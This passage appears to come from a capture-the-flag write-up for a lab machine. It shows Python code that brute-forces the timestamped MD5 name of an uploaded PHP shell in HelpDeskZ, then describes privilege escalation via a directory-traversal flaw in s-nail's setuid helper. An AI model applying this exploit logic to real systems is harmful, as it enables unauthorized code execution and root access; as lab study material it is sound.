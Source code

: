       * Last but not least, we loop through requests to the base url trying the current time minus multiple numbers (from 0 to 800) until we get a match    
        ```python
        for x in range(0, 800):
           plaintext = fileName + str(currentTime - x)
           md5hash = hashlib.md5(plaintext.encode()).hexdigest()
           url = helpdeskzBaseUrl+md5hash+'.php'
           response = requests.head(url)
        ```  

      * I think the code until the block before this is quite enough because (I didn't try it) but the fact that we got code 200 means that our code got executed and we gained a reverse shell. So the following code is kind of useless
        ```python
        if response.status_code == 200:
        print ("found!")
        print (url)
        sys.exit(0)
        print ("Sorry, I did not find anything")

<br/><br/>

### <span class="helpmach subtitle">PrivEsc   

* How Did I Privesc?  
  * I used an exploit of a vulnerability in the *s-nail* version on the system.
  * It was written in C.
  * What the vulnerability was that s-nail had what they called "helper program" in `/usr/lib` which has the ability to gain more privileges than s-nail(file: `/usr/lib/s-nail/s-nail-privsep`).
  * So what they did is they used this file to gain more privileges and create lock files.
  * Lock files: Cooperating processes acquire a lock on a lock file to indicate that it is their turn to run or manipulate a shared resource.  
  * So this setUID binary *s-nail-privsep* has a directory traversal bug which lets us be owner of a file at any location the root can give us one but only for a very short time.  
  * Seems like this s-nail is only used on either ArchLinux or Ubuntu.  
  * God all writeups used a Kernel Exploit. But not mee 🤓.






